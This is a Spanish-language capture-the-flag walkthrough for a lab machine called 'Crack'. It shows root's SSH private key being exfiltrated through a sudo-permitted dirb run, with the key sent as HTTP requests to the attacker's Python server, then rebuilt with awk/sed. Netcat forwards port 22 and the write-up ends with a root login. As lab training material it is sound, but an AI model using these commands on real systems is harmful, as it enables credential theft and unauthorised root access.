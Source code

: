Vemos que el puerto `22` (**`SSH`**) está abierto internamente, seguramente tengamos que traernos este puerto a nuestra máquina, pero por el momento vayamos con **`DIRB`**.

Vamos a tratar de ver la clave **`SSH`** privada de `root`, para ello comenzaremos por crearnos un servidor web en nuestra máquina, en mi caso lo haré con `Python`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora, con **`DIRB`** tendremos que hacer "`fuzzing`" con un diccionario personalizado, en este caso será la **`id_rsa`** de `root`:

```sh
cris@crack:~$ sudo /usr/bin/dirb http://192.168.1.110 /root/.ssh/id_rsa
```

Si ejecutamos el comando veremos que recibiremos muchas conexiones, si nos fijamos bien veremos que es la **`id_rsa`** de `root`.

Para poder conseguir la **`id_rsa`** tenemos que limpiarla, para ello nos copiaremos todo el `output`, es decir, todas las peticiones realizadas y las pegaremos en un fichero.

Una vez hecho haremos lo siguiente:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# cat test.txt | awk '{print $2}' FS="GET" | awk '{print $1}' FS=" HTTP" | sed 's/\//\'$'\n\/' | sed '/^\s*$/d' > root.id_rsa
```

Con esto conseguimos limpiar el fichero y que nos quede sólo la clave privada, pero hay un problema, el comienzo y el final no están bien, vamos a solucionarlo:

Para ello tenemos que comprara la clave privada que tenemos con una nuestra, veremos que comienza con "`-----BEGIN OPENSSH PRIVATE KEY-----`" y acaba con "`-----END OPENSSH PRIVATE KEY-----`". Implementamos eso en el fichero y le damos los permisos necesarios:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# chmod 600 root.id_rsa
```

Por último necesitamos hacer público el puerto `22` para poder conectarnos, para ello utilizaremos **`NetCat`**:

```sh
cris@crack:~$ nc -nlktp 9999 -c "nc 127.0.0.1 22"
```

Ahora sí, una vez ejecutado podemos conectarnos por **`SSH`** como `root`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# ssh -i root.id_rsa root@192.168.1.112 -p 9999
Linux crack 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jun 10 16:17:12 2023 from 127.0.0.1
root@crack:~#
```

¡Enhorabuena! Ya tenemos el **control total** de la máquina. ¡Qué fácil!
